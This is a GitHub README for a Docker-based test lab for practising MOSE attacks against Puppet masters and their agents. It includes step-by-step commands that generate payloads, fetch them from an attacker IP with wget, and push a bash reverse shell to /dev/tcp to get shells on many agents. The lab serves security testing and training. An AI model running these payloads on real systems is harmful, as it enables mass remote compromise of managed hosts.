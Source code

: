 # puppet-test-lab
[![License](http://img.shields.io/:license-mit-blue.svg)](https://github.com/master-of-servers/puppet-test-lab/blob/master/LICENSE)

Create test labs which can be used to play around with MOSE and Puppet.

**Warning, take heed: This lab should be run in a controlled environment, as it contains vulnerable assets.**

## Dependencies
You must download and install the following for this environment to work:
* [Docker](https://docs.docker.com/install/)
* [Docker Compose](https://docs.docker.com/compose/install/)
* [Python 3](https://www.python.org/downloads/release/python-374/)

## Basic Lab Build Instructions
To create an environment with a Puppet Master that controls a single agent with a simple hello world module, run the following command:
```
cd basic && make run
```

To run MOSE against it:
1. Build MOSE using `make build` in the MOSE repo
2. Generate a payload with MOSE: `./mose -c "touch /tmp/BLA && echo test >> /tmp/BLA" -t puppet`
3. Get it to the puppet master: `docker exec -it basic-puppetmaster wget http://YOURIPADDRESSGOESHERE:8080/puppet-linux`
4. Exec into the puppet master: `docker exec -it basic-puppetmaster bash`
5. Run the payload: `chmod +x puppet-linux; ./puppet-linux`
6. Wait for 30 minutes or exec into one of the agents and kick off the payload manually: `docker exec -it basic-puppetagent bash` and then run `puppet agent -t`
7. For this example, you should note that a file has been created in `/tmp` in the basic-puppetagent container, as we specified in step 2.


To tear down the basic lab, run the following command:
```
make destroy
```

## Mass Agent Lab Build Instructions
To create an environment with a Puppet Master that controls n number of agents, start by specifying the number of agents to create:
1. Open mass_puppet.py
2. Change `number_agents` to your desired number of agents. The counter starts at 2, so 21 agents actually yields 19.

Next, run the following command to stand up the environment:
```
cd mass_agents && make run
```

To run MOSE against the lab and get a ton of shells, do the following:
1. Build MOSE using `make build` in the MOSE repo
2. Download Platypus from here: https://github.com/WangYihang/Platypus/releases/tag/v1.1.0
3. Run Platypus using the instructions provided in the repo's README
4. Generate a payload with MOSE: `./mose -c "bash -i >& /dev/tcp/YOURIPADDRESSGOESHERE/8080 0>&1 &" -t puppet`
5. Get it to the puppet master: `docker exec -it massagents-puppetmaster wget http://YOURIPADDRESSGOESHERE:8080/puppet-linux
6. Exec into the puppet master: `docker exec -it massagents-puppetmaster bash`
7. Run the payload: `chmod +x puppet-linux; ./puppet-linux`

Back on the attackers system, kick off the agents by running: 
```
bash pwn.sh
```

To tear down the mass agent lab, run the following command:
```
make destroy
```

## Extended Lab Build Instructions
To create an environment with a Puppet Master that controls a prod and dev environment that include a web application, a mysql database, and various package installs, run the following command:
```
cd extended && make run
```

To run MOSE against it:
1. Build MOSE using `make build` in the MOSE repo
2. Generate a payload with MOSE: `./mose -c "touch /tmp/BLA && echo test >> /tmp/BLA" -t puppet`
3. Get it to the puppet master: `docker exec -it extended-puppetmaster wget http://YOURIPADDRESSGOESHERE:8090/puppet-linux`
4. Exec into the puppet master: `docker exec -it extended-puppetmaster bash`
5. Run the payload: `chmod +x puppet-linux; ./puppet-linux`
6. Wait for 30 minutes or exec into one of the agents and kick off the payload manually: `docker exec -it prodlaptop bash` and then run `puppet agent -t`
7. For this example, you should note that a file has been created in `/tmp` in the prodlaptop container, as we specified in step 2.

You can also target development systems by running `puppet agent -t --environment development` on the appropriate systems. 

This environment can be used for more interesting attack chains, such as targeted payloads specifically for the webservers, leveraging secrets to access a database, etc.

To tear down the extended lab, run the following command:
```
make destroy
```
